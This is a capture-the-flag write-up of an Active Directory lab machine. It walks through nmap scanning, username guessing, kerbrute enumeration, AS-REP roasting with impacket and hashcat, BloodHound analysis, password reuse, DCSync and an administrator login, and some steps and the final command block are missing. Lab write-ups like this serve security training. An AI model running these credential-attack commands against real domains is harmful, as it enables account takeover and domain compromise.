

# Nmap

|Protocol|Ports|
|---|---|
|  TCP  | 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49668,49675,49676,49677,49733  |


```sh
PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-02-28 18:11:15Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
...
```
Now we have a domain name: EGOTISTICAL-BANK.LOCAL

# Port 53
When trying to perform a zone transfer we find the name of the machine:


sauna.EGOTISTICAL-BANK.LOCAL

# 139/445
Enum4linux didn't give any results.


# Port 80
On port 80 we find a website of the company. The about page gives us possible usernames:


I made a list with possible combinatoins for the usernames:


```sh
f.smith
fergussmith
fergus.smith
fsmith
s.coins
shauncoins
shaun.coins
scoins
s.driver
sophiedriver
sophie.driver
sdriver
b.aylor
bowietaylor
bowie.taylor
btaylor
h.bear
hugobear
hugo.bear
hbear
stevenkerb
stevenkerb
steven.kerb
skerb
```

Let's try to brute-force to see if these users exist with kerbrute:

```sh
 kerbrute userenum -d EGOTISTICAL-BANK.LOCAL --dc 10.10.10.175 users.txt
```

Online one user comes back positive.

# AS-REP Roasting

We can looking which users don't have kerberos pre-authentication enabled:

```sh
impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/FSMITH  -dc-ip 10.10.10.175
```


Let's roast!

```sh
sudo hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt  --force

```


Login to get user.txt


To enumerate the domain from our linux machien we can use the tool bloodhound-python:

 

After this we load the zip file in bloodhound for analysis:

We can see that the user svc_loanmgr has DSYNC rights which means this account can perform domain controller synchronization:


Further we can find out that we can perform a kerberoast attack in the user hsmith if we have the right privileges.


# Lateral Movement

After performing analysis in bloodhound and not finding a route, I tried if some passwords are reused  en enumeration using winPEAS to get a possible privilege escaltion path. And I found the password of the svc_loanmgr account!



We don't need to log in, but we can perform DC synchronization form out linux host


# Root!

Now we can log in with evil-winrm as administrator:


```sh

```
